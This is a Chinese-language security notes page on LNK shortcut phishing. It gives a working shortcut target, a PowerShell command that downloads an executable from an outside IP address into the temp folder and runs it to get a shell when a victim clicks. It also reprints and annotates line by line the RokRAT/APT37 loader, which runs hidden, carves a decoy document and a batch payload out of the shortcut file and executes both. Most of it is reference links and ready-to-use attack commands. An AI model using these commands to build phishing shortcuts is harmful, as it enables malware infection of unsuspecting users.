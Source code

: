 ```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - LNK伪造
excerpt: 网络钓鱼攻击者可能会伪造 LNK 文件来诱骗用户下载恶意软件或执行恶意命令。LNK 文件可以包含指向恶意网站的链接，或者直接执行恶意代码。
---
```


# LNK伪造

## LNK+Powershell

> [疑似BITTER组织利用LNK文件的攻击活动分析 (qq.com)](https://mp.weixin.qq.com/s/TbiXJ359ZXOyQYWsfVDwGA)
>
> [利用武器化的 Windows 快捷方式 进行无文件 RokRat 恶意软件的部署 - 嘶吼 RoarTalk – 网络安全行业综合服务平台,4hou.com](https://www.4hou.com/posts/K70x)

新建一个快捷方式然后修改目标为如下信息:

```cmd
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iwr http://100.1.1.131:8000/download/local/Code.exe -outfile $env:TEMP\Code.exe;start-process $env:TEMP\Code.exe
```

![image-20240626114316470](http://cdn.ayusummer233.top/DailyNotes/202406261143196.png)

当受害者点击该快捷方式后则会调起powershell下载恶意程序并执行上线shell

![image-20240626114445251](http://cdn.ayusummer233.top/DailyNotes/202406261144336.png)

---

## Office OLE + LNK

> [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

- [Office OLE + LNK - Google Search](https://www.google.com/search?q=Office+OLE+%2B+LNK&sca_esv=93393d72ee4371e2&sxsrf=ADLYWIKiLlirDtoqCKRrQ_Fnz6WimgY8yg%3A1719480748554&ei=rDF9Zoe7IcyA1e8P5ZCjwAI&ved=0ahUKEwiHwdz5vPuGAxVMQPUHHWXICCgQ4dUDCBA&uact=5&oq=Office+OLE+%2B+LNK&gs_lp=Egxnd3Mtd2l6LXNlcnAiEE9mZmljZSBPTEUgKyBMTksyBRAhGJ8FSOEgULkDWNMdcAN4AZABAZgB0AGgAdANqgEGMS4xMS4xuAEDyAEA-AEBmAIPoALGDMICChAAGLADGNYEGEfCAgQQIxgnwgIIEAAYgAQYogTCAgUQIRigAcICCxAAGIAEGJECGIoFwgIFEAAYgATCAgYQABgWGB7CAgoQABgWGAoYHhgPwgIIEAAYFhgeGA_CAggQABgWGAoYHsICCxAAGIAEGIYDGIoFmAMAiAYBkAYFkgcENC4xMaAHmjA&sclient=gws-wiz-serp)
- [Issues in OLE link from Excel to Word for Windows - Microsoft Community](https://answers.microsoft.com/en-us/msoffice/forum/all/issues-in-ole-link-from-excel-to-word-for-windows/c93d2e18-8404-4a51-82f4-d3c0da8151da)
- [Abusing LNK "Features" for Initial Access and Persistence (v3ded.github.io)](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence)
- [Phishing: OLE + LNK | Red Team Notes (ired.team)](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk)

---

## APT

### ROKRAT

> [RokRAT（恶意软件家族） --- RokRAT (Malware Family) (fraunhofer.de)](https://malpedia.caad.fkie.fraunhofer.de/details/win.rokrat)
>
> [利用武器化的 Windows 快捷方式 进行无文件 RokRat 恶意软件的部署 - 嘶吼 RoarTalk – 网络安全行业综合服务平台,4hou.com](https://www.4hou.com/posts/K70x)
>
> [安全星图平台 (dbappsecurity.com.cn)](https://starmap.dbappsecurity.com.cn/blog/articles/2023/04/27/apt37-rokrat/)
>
> [APT37组织主战远控武器RokRAT，更新迭代部分执行流程 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13851?time__1311=mqmxnQG%3DKDu0D%2F%2BG7DyQ5GODB07KG8f79eD&alichlgref=https%3A%2F%2Fwww.google.com%2F)
>
> [猎影追踪：APT37利用朝鲜政治话题针对韩国的攻击活动分析 (qq.com)](https://mp.weixin.qq.com/s?__biz=MzUyMDEyNTkwNA%3D%3D&mid=2247496455&idx=1&sn=0e3af7d734671a41c9d796e7f33b085d&chksm=f9ed9fb8ce9a16ae8e9714f116e0812994e0e3d13eb75d05182e623372fc5b979d70cf403f39&scene=178&cur_album_id=1375769135073951745)

```cmd
"C:\Windows\SyswOW64\cmd.exe" /c powershell -windowstyle hidden $dirPath = Get-Location; if($dirPath -Match 'system32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\Admin\AppData\Local\Temp'};$Lnkpath = Get-Childltem -Path $dirPath -Recurse *.lnk ^| where-object {$_.length -eg 0x0001DAB452} ^| Select-Object -ExpandProperty FullName;$pdfFile = gc $Lnkpath -Encoding Byte -TotalCount 00065446 -ReadCount 00065446; $pdfPath = 'c:Users\Admin\AppData\Local\Temp\230401.hwp'; sc $pdfPath ([byte[]]($pdfFile ^| select -Skip 002470)) -Encoding Byte; 
^& $pdfPath; $exeFile = gc $Lnkpath -Encoding Byte -TotalCount 00068696 -ReadCount 00068696; $exePath = 'c:/Users/Admin/AppData/Local/Temp/230401.bat'; sc $exePath ([byte[]]($exeFile ^| select -Skip 00065446)) -Encoding Byte; ^& $exePath;
```

```powershell
"C:\Windows\SyswOW64\cmd.exe" /c powershell -windowstyle hidden 
# 获取当前路径
$dirPath = Get-Location; 
# 如果当前路径包含system32或者Program Files，则将 dirPtah 设置到临时目录
if($dirPath -Match 'system32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\Admin\AppData\Local\Temp'};
# 获取 dirPath 下文件大小为0x0001DAB452的
$Lnkpath = Get-Childltem -Path $dirPath -Recurse *.lnk ^| where-object {$_.length -eg 0x0001DAB452} ^| Select-Object -ExpandProperty FullName;
# Get-Contet 一次性获取 Lnkpath 对应文件开头的 65446 字节 存储到 $pdfFile
$pdfFile = gc $Lnkpath -Encoding Byte -TotalCount 00065446 -ReadCount 00065446; 
$pdfPath = 'c:Users\Admin\AppData\Local\Temp\230401.hwp'; 
# Set-Content 跳过 $pdfFile 的前 2470 字节将剩余内容 写入到 $pdfPath
sc $pdfPath ([byte[]]($pdfFile ^| select -Skip 002470)) -Encoding Byte; 
# 运行 $pdfPath
^& $pdfPath; 
# 一次性获取 Lnkpath 对应文件开头的 68696 字节 存储到 $exeFile
$exeFile = gc $Lnkpath -Encoding Byte -TotalCount 00068696 -ReadCount 00068696; 
$exePath = 'c:/Users/Admin/AppData/Local/Temp/230401.bat'; 
# Set-Content 跳过 $exeFile 的前 65446 字节将剩余内容 写入到 $exePath
sc $exePath ([byte[]]($exeFile ^| select -Skip 00065446)) -Encoding Byte; 
# 运行 $exePath
^& $exePath;
```

具体分析可以参阅 [APT37组织主战远控武器RokRAT，更新迭代部分执行流程 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13851?time__1311=mqmxnQG%3DKDu0D%2F%2BG7DyQ5GODB07KG8f79eD&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---

## 相关链接

- [钓鱼姿势汇总 - 简书 (jianshu.com)](https://www.jianshu.com/p/dcd250593698)
- TODO
  - [钓鱼攻击之：Lnk 文件钓鱼 - f_carey - 博客园 (cnblogs.com)](https://www.cnblogs.com/f-carey/p/16542156.html#tid-eeTEc7)


---





